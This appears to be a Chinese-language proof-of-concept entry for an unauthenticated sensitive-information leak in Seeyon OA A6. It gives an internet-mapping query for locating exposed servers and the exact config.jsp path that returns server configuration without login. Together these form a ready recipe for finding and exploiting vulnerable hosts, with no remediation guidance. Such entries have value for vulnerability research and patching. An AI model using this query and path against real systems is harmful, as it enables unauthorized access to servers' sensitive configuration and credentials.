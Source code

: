 # 致远OA A6 config.jsp 敏感信息泄漏漏洞

# 致远OA A6 config.jsp 敏感信息泄漏漏洞

## 漏洞描述

致远OA A6 config.jsp页面可未授权访问，导致敏感信息泄漏漏洞，攻击者通过漏洞可以获取服务器中的敏感信息

## 漏洞影响

```
致远OA A6
```

## 网络测绘

```
body="yyoa" && app="致远互联-OA"
```

## 漏洞复现

登录页面

![image-20220520152551136](/images/202205201525328.png)

验证POC

```
	/yyoa/ext/trafaxserver/SystemManage/config.jsp
```

![image-20220520152601778](/images/202205201526835.png)

